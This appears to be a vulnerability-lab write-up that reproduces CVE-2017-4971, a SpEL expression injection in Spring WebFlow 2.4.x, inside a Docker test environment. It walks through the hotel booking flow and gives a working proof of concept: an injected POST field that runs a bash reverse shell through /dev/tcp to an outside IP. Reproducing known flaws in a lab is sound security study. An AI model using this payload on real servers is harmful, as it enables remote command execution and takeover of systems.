





# Spring WebFlow Remote Code Execution Vulnerability (CVE-2017-4971)

Spring WebFlow is a framework for developing process-based applications (such as shopping logic) that separates the definition of a process from the classes and views that implement process behavior. In its 2.4.x version, if we control the field when the data is bound, it will cause a SpEL expression injection vulnerability, which will eventually cause arbitrary command execution.

Reference link:

- https://threathunter.org/topic/593d562353ab369c55425a90
- https://pivotal.io/security/cve-2017-4971

## test environment

Run the test environment:

```
Docker-compose up -d
```

After waiting for the environment to start, visit `http://your-ip:8080` and you will see a hotel reservation page, which is a simple example given by spring-webflow.

## Vulnerability recurrence

First visit `http://your-ip:8080/login` and log in to the system with any account/password given on the left side of the page:



Then visit the hotel `http://your-ip:8080/hotels/1` with id 1, click the reservation button "Book Hotel", fill in the relevant information and click on "Process" (from this step, in fact, WebFlow officially started. ):



Click again to confirm "Confirm":



At this point, grab the packet and grab a POST packet. We add a field to it (that is, the POC that bounces the shell):

```
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```



(Note: don't forget the URL encoding)

Successful execution, get the shell:

